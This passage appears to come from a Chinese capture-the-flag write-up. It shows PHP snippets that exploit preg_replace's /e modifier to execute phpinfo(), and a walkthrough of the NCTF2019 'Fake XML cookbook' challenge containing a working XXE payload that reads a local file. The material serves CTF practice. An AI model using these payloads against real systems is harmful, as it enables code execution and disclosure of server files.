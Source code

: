 ```php
var_dump(phpinfo());    // 结果：布尔 true
var_dump(strtolower(phpinfo()));    // 结果：字符串 '1'
var_dump(preg_replace('/(.*)/ie','1','{${phpinfo()}}'));    // 结果：字符串'11'

var_dump(preg_replace('/(.*)/ie','strtolower("\\1")','{${phpinfo()}}'));    // 结果：空字符串''
var_dump(preg_replace('/(.*)/ie','strtolower("{${phpinfo()}}")','{${phpinfo()}}'));    // 结果：空字符串''
这里的'strtolower("{${phpinfo()}}")'执行后相当于 strtolower("{${1}}") 又相当于 strtolower("{null}") 又相当于 '' 空字符串
```

# [NCTF2019]Fake XML cookbook
> 根据题目的名字基本就知道考点是啥了，抓包查看其 XML 语句

<img src="./images/18.png" alt="">

> 这里利用 XXE 漏洞 + file 伪协议即可

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note[
<!ENTITY admin SYSTEM "file:///flag">
]>
<user><username>&admin;</username><password>a</password></user>
```

